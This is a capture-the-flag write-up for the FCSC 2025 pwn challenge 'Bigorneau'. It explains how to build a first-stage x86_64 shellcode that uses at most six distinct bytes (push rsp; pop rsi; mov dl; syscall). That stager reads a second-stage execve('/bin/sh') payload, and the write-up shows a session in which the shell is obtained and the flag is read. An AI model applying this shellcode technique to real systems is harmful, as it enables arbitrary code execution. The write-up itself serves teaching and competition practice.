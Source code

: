 # Bigorneau

This challenge is the 3rd most solved pwn challenge at the 2025 edition of the FCSC. We are provided a few resources:
 - an address and a port to connect to
 - the binary (`x86_64` architecture)
 - the source code of the binary
 - a python script that is run on the server

## First steps

### Playing with the service

```
➜  03-bigorneau nc chal.fcsc.fr 2102
Enter your shellcode (hex, at most 128 bytes):
1203980aaaaaa
Please check your inputs.
^C
```

### Analyzing the source code

#### `bigorneau.py`

This script:
 - converts the hex input as bytes
 - checks that there are at most 6 different bytes and less that 0x80 bytes in total
 - inserts some instructions to clear the registers beforehand
 - writes the resulting bytes to a temporary file
 - calls the program with the path to this temporary file as its first argument

#### `bigorneau.c`

The program simply reads the shellcode found at the path of the first argument on the stack, and jumps to it. Since the program is compiled with no NX bit protection on stack, this is fine.

## Solving

### Strategy

In summary, we need to find an `x86_64` shellcode with at most 6 different bytes.

In order to do this, I proceeded in two steps:
 - a first stage shellcode simply reads from user input on the stack (`read(<stack>, 0, <size>)`)
 - the second stage shellcode (a simple `execve("/bin/sh", NULL, NULL)` padded with NOPS at the beginning) can then be sent to overwrite the current instructions

 The real challenge here is to write the first stage shellcode. Hopefully for us, all registers are cleared beforehand (thanks to the script), so `rdi` (the input fd) and `rax` (the syscall number) are already zero (`stdin` fd and `read` syscall number).
 
 Now, let's see what is left to do:
 - somehow move `rsp` to `rsi` -> push/pop instructions are only 1 byte long
 - set `rdx` to a large enough value to allow for the shellcode -> `dl` is enough
 - do a syscall -> 2 bytes

Here is the resulting shellcode:

```
0x00000000      54             push rsp
0x00000001      5e             pop rsi
0x00000002      b2f0           mov dl, 0xf0
0x00000004      0f05           syscall
```

## Result

```
➜  03-bigorneau python expl.py 
[+] Opening connection to chal.fcsc.fr on port 2102: Done
[*] Switching to interactive mode
Enter your shellcode (hex, at most 128 bytes):
$ ls
bigorneau
bigorneau.py
flag.txt
$ cat flag.txt
FCSC{619c629f9dd846fe8f1db9f23693707b7a334ab7da1507dc904b9d5c3fc2a15c}
$ 
```
